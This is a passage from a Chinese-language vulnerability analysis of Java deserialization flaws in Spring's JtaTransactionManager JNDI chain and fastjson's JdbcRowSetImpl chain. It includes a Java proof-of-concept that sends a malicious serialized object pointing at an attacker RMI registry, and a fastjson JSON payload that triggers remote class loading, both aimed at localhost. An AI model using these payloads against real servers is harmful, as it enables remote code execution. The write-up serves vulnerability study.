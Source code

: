 可以看到在整个流程的最后将会查询最开始我们由反序列化传入的org.springframework.transaction.jta.JtaTransactionManager类的对象的userTransactionName属性，最终导致加载了我们恶意的rmi源中的恶意类，从而导致RCE。

## Poc

这个漏洞的Poc构造比起之前分析的apache common collections反序列化的Poc构造显然要简单许多：

```java
System.out.println("Connecting to server "+serverAddress+":"+port);
Socket socket=new Socket(serverAddress,port);
System.out.println("Connected to server");
String jndiAddress = "rmi://127.0.0.1:1099/Object";//恶意的rmi注册源

org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
object.setUserTransactionName(jndiAddress);

System.out.println("Sending object to server...");
ObjectOutputStream objectOutputStream = new ObjectOutputStream(socket.getOutputStream());
objectOutputStream.writeObject(object);
objectOutputStream.flush();
```

# fastjson反序列化漏洞

与上面的利用链不同，之前我们介绍到的利用链都是由readObject()方法触发，而在fastjson的反序列化中我们触发漏洞则是利用了目标类的setXXX()方法和getXXX()方法，因为这两个方法是fastjson在完成反序列化时需要调用的方法。

关于fastjson的反序列化我测试了两种不同的利用链，分别为JdbcRowSetImpl与TemplatesImpl.前者正如同之前测试的spring jndi反序列化漏洞，使用了JNDI这一java特性来实现RCE；而后者则使用了另一套不同的机制。

这里给出两种利用链的分析。

## JdbcRowSetImpl

利用JdbcRowSetImpl时使用的payload主要如下:

```json
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://127.0.0.1:3456/Object",
    "autoCommit":true
}
```

在触发反序列化时会调用JdbcRowSetImpl类的 setAutoCommit函数

```java
public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }
}
```
